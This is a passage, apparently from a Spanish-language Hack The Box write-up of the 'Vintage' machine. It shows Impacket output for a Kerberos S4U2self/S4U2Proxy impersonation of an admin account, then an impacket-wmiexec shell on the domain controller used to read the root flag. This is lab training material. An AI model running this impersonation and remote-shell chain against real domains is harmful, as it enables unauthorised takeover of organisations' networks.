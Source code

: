 [*] Impersonating L.BIANCHI_ADM
/home/shat/Desktop/HTB/Vintage/venv/bin/getST.py:380: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/shat/Desktop/HTB/Vintage/venv/bin/getST.py:477: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2self
/home/shat/Desktop/HTB/Vintage/venv/bin/getST.py:607: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/shat/Desktop/HTB/Vintage/venv/bin/getST.py:659: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2Proxy
[*] Saving ticket in L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache


export KRB5CCNAME=L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache


impacket-wmiexec -k -no-pass VINTAGE.HTB/L.BIANCHI_ADM@dc01.vintage.htb 
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
vintage\l.bianchi_adm

C:\>cd /users/administrator/desktop
C:\users\administrator\desktop>type root.txt

y asi conseguimos la root flag
